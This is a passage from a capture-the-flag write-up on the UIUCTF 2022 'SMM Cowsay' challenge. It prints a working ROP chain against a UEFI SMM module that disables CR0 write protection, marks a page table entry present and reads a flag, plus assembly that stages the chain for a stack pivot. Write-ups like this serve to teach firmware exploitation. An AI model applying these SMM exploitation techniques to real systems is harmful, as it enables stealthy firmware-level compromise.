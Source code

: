 After finding the gadgets we need, this is what the real ROP chain looks like:

```python  
ret_0x70 = 0x7F83000 + 0x8a49 # VariableSmm.efi + 0x8a49: ret 0x70  
payload  = 'A'.encode('utf-16-le') * 200 + p64(ret_0x70)

real_chain = [  
   # Unset CR0.WP  
   0x7f8a184 , # pop rax ; ret  
   0x80000033, # -> RAX  
   0x7fcf70d , # mov cr0, rax ; wbinvd ; ret

   # Set PTE of flag page as present  
   # PTE at 0x7ed0200, original value = 0x8000000044440066  
   0x7f8a184         , # pop rax ; ret  
   0x7ed0200         , # -> RAX  
   0x7fc123d         , # pop rdx ; ret  
   0x8000000044440067, # -> RDX  
   0x7fc9385         , # mov dword ptr [rax], edx ; xor eax, eax ;  
                       # pop rbx ; pop rbp ; pop r12 ; ret  
   0x1337, # filler  
   0x1337, # filler  
   0x1337, # filler

   # Read flag into RAX and then let everything chain  
   # crash to simply leak it from the register dump  
   0x7ee8222 , # pop rsi ; ret (do not mess up RAX with sub/add)  
   0x0       , # -> RSI  
   0x7fc123d , # pop rdx ; ret (do not mess up RAX with sub/add)  
   0x0       , # -> RDX  
   0x7ee82fe , # pop rdi ; ret  
   0x44440000, # -> RDI (flag address)  
   0x7ff7b2c , # mov rax, qword ptr [rdi] ; sub rsi, rdx ; add rax, rsi ; ret  
]  
```

### Putting it all together

We can now write the real ROP chain into our allocated buffer (let's say at  
`buffer + 0x800` just to be safe), load the gadget for flipping the stack into  
R14, the address of the new stack (i.e. `buffer + 0x800`) into R15, and go for  
the kill.

```python  
# Transform real ROP chain into .quad directives to  
# easyly embed it in the shellcode:  
#  
#   .quad 0x7f8a184  
#   .quad 0x80000033  
#    ...  
real_chain_size = len(real_chain) * 8  
real_chain      = '.quad ' + '\n.quad '.join(map(str, real_chain))

code = asm(f'''  
   /* Copy data into allocated buffer */  
   lea rsi, qword ptr [rip + data]  
   mov rdi, {buffer}  
   mov rcx, {0x18 + len(payload)}  
   cld  
   rep movsb

   /* Copy real ROP chain into buffer + 0x800 */  
   lea rsi, qword ptr [rip + real_chain]  
   mov rdi, {buffer + 0x800}  
   mov rcx, {real_chain_size}  
```

[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[uefi-spec]:                           https://uefi.org/specifications  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-